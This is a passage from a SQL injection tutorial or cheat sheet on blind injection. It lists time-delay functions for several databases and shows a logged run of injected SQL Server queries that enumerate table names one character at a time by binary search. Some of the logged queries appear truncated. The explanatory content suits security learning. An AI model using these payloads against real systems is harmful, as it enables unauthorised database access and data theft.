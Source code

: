 **Normal Blind**, You can not see a response in the page, but you can still determine result of a query from response or HTTP status code

**Totally Blind**, You can not see any difference in the output in any kind. This can be an injection a logging function or similar. Not so common, though.

In normal blinds you can use **if statements** or abuse **WHERE query in injection** (*generally easier*), in totally blinds you need to use some waiting functions and analyze response times. For this you can use **WAITFOR DELAY '0:0:10' **in SQL Server, BENCHMARK() and **sleep(10)** in MySQL, **pg_sleep(10) **in PostgreSQL, and some PL/SQL tricks in ORACLE.

#### Real and a bit Complex Blind SQL Injection Attack Sample

This output taken from a real private Blind SQL Injection tool while exploiting SQL Server back ended application and enumerating table names. This requests done for first char of the first table name. SQL queries a bit more complex then requirement because of automation reasons. In we are trying to determine an ascii value of a char via binary search algorithm.

***TRUE** and **FALSE** flags mark queries returned true or false.*

`**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78-- [[NEWLINE]][[NEWLINE]]**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>103-- [[NEWLINE]][[NEWLINE]]**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) [[NEWLINE]]**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>89-- [[NEWLINE]][[NEWLINE]]**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) [[NEWLINE]]**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>83-- [[NEWLINE]][[NEWLINE]]**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0) [[NEWLINE]]**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>80-- [[NEWLINE]][[NEWLINE]]**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)`

Since both of the **last 2 queries failed **we clearly know table name's first char's **ascii value is 80 which means first char is `P`**. This is the way to exploit Blind SQL injections by binary search algorithm. Other well-known way is reading data bit by bit. Both can be effective in different conditions.

###

### Making Databases Wait / Sleep For Blind SQL Injection Attacks

